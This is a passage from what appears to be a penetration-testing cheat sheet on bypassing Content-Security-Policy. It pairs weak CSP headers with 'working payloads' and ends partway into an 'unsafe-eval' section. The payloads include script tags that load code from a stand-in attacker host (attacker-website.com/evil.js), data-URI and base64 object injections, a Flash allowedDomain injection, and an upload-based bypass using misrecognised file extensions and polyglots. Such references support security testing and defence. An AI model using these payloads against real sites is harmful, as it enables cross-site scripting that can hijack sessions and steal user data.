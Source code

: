 ```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *; 
```

Working payload:

```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

### Lack of object-src and default-src

```yaml
Content-Security-Policy: script-src 'self' ;
```

Working payloads:

```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```

### File Upload + 'self'

```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ; 
```

If you can upload a JS file you can bypass this CSP:

Working payload: 

```markup
"/>'><script src="/uploads/picture.png.js"></script>
```

However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using a extension accepted by the server \(like: _script.png_\) this won't be enough because some servers like apache server **selects MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot \([some polyglot examples here](https://github.com/Polydet/polyglot-database)\).

### Third Party Endpoints + 'unsafe-eval'

```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
```
